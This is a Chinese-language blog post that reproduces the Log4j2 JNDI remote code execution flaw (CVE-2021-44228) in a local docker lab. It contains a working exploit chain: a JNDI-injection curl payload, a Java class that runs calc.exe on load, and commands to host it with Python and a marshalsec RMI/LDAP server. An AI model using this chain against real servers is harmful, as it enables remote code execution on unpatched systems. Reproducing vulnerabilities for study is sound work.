 ```yaml
---
title: Log4j远程代码执行漏洞的复现
date: 2021-12-10
categories:  
    - 闲话编程
    - 安全
---
```

Log4j2突然爆出个大漏洞，闹得全世界都在修这个问题。但这个问题到底能不能复现出来呢？花了一些时间，终于折腾出来了。

<!-- more -->

# 如何复现
## 准备复现环境

已经有安全平台准备了测试的docker镜像：

```bash
docker run -d -P vulfocus/log4j2-rce-2021-12-09:latest
```

反编译看了一下里面的内容，其实特别简单：

```java
@SpringBootApplication
@RestController
public class Log4j2RceApplication {
    private static final Logger logger = LogManager.getLogger(Log4j2RceApplication.class);

    public Log4j2RceApplication() {
    }

    public static void main(String[] args) {
        SpringApplication.run(Log4j2RceApplication.class, args);
    }

    @PostMapping({"/hello"})
    public String hello(String payload) {
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        logger.error("{}", payload);
        logger.info("{}", payload);
        logger.info(payload);
        logger.error(payload);
        return "ok";
    }
}
```

当启动上面的程序后，直接调用就可以测试：

```bash
curl --request POST \
  --url http://localhost:8080/hello \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --data 'payload=${jndi:rmi://localhost:1099/ExecTest}' \
  --data = \
  --data =
```

可以看到日志中打印出来JNDI相关的日志。但是我们的目标不仅于此，如何真正执行一些有意思的操作，比如开启个计算器？

## 编写恶意代码

准备一个简单的“恶意代码”，这个类在初始化的时候调用系统进程：

```java
public class ExecTest {
    public ExecTest() {
        try {
            System.out.println("You're Hacked!!!");
            Runtime.getRuntime().exec("calc.exe");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

将其编译为.class文件，并需要发布到网络地址上，最简单的是用Tomcat或者python来弄，比如：

```bash
cd target/classes
python3 -m SimpleHTTPServer 
```

## 启动RMI服务

使用https://github.com/mbechler/marshalsec可以快速启动RMI 或者LDAP，这个工具需要自己编译：

```bash
mvn clean package -D"maven.test.skip"=true
 java -cp .\marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://localhost:8000/#ExecTest
 # java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://localhost:8080/\#ExecTest 1389
```

## 测试

在之前的请求内容中填上RMI的地址，${jndi:rmi://localhost:1099/ExecTest} 调用成功后即可弹出计算器。


* https://nosec.org/home/detail/4917.html
* https://github.com/apache/logging-log4j2/commit/7fe72d6
* https://securityboulevard.com/2021/12/log4shell-jndi-injection-via-attackable-log4j/
* https://nvd.nist.gov/vuln/detail/CVE-2021-44228